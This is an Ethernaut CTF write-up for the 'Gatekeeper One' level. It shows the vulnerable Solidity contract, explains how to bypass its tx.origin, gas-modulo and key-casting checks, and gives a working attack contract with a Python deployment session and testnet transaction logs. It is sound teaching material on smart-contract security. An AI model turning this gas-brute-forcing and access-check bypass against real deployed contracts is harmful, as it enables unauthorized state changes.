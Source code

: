 # 13 - Gatekeeper One

## Challenge

Make it past the gatekeeper and register as an entrant to pass this level.

Things that might help:

- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## Summary

`gateOne()` has exactly the same vulnerability as `Telephone` level - as long as we send transaction via deployed contract, `msg.sender` will be different from `tx.origin`.

For `gateThree()`, we need to pass 3 conditions:

- Part 3: `uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)`. Remember `tx.origin` is our wallet address, in my case `0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB`. `uint` casting will retain lower bytes, so `uint16(uint160(tx.origin)` gives `B3 aB`. This means last 4 bytes of `_gateKey` must be `00 00 B3 aB`.
- Part 1: `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))`. This is the same as above.
- Part 2: `uint32(uint64(_gateKey)) != uint64(_gateKey)`. This means first 4 bytes of `_gateKey` must not be `00 00 00 00`.

We can set any value for `_gateKey` as long as it satisfies above conditions. e.g. `0x000000010000B3aB`.

For `gateTwo()`, we need `gasleft() % 8191` to be 0. Checking documentation, we see that in the transaction we can specify gas value by `.call{gas: i}`. We can try different values for `i` until we find one that satisfies the condition. e.g. a for loop that loops through ~8000 values will surely work.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '"0xdd29E5ab49F28F82744F963514a2d08AC2037462"'
```

Deploy contract that will call `enter` with gas value and enumerate possible keys:

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOneHack {
    function enterGate(address _gateAddr, uint256 _gas) public returns (bool) {
        bytes8 key = 0x000000010000B3aB;

        for (uint i = _gas - 4000; i < _gas + 4000; i++) {
            (bool success, ) = address(_gateAddr).call{gas: i}(abi.encodeWithSignature("enter(bytes8)", key));
            if (success) {
                return true;
            }
        }
        return false;
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['GatekeeperOneHack']
>>>
>>> attackContract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> attackContract.deploy(contract_addr)
2023-06-19 23:28:30.126 | DEBUG    | cheb3.contract:deploy:94 - Deploying contract ...
2023-06-19 23:28:54.169 | INFO     | cheb3.contract:deploy:99 - The contract is deployed at 0xE02b53460563f91B84C2377c99521ac94946394c
```

Here we made a for-loop `for (uint i = _gas - 4000; i < _gas + 4000; i++)` to iterate all potential gas values.

```py
>>> attackContract.functions.enterGate(contract_addr, 8000).send_transaction()
```

Calling this, `await contract.entrant()` still shows zero address. Probably the gas is too small, or we are kinda unlucky. Trying it again with 38000 (a random value) works:

```py
>>> attackContract.functions.enterGate(contract_addr, 38000).send_transaction()
2023-06-19 23:31:43.459 | INFO     | cheb3.contract:send_transaction:236 - (0xE02b53460563f91B84C2377c99521ac94946394c).enterGate transaction hash: 0x9446e373410fe7a4e7732b51092370e9e3c8caffc1c4ff906799d9266bfdcb51
AttributeDict({'blockHash': HexBytes('0xf89bcf5c804df9dc6d2ffa60da040a1c31f9210a4e1ef7fd534917b2164516db'), 'blockNumber': 9208737, 'contractAddress': None, 'cumulativeGasUsed': 17510155, 'effectiveGasPrice': 1685, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 12502817, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0xE02b53460563f91B84C2377c99521ac94946394c', 'transactionHash': HexBytes('0x9446e373410fe7a4e7732b51092370e9e3c8caffc1c4ff906799d9266bfdcb51'), 'transactionIndex': 33, 'type': 0})
```

Now `await contract.entrant()` shows my own wallet address. Finally, submit the instance to pass the level.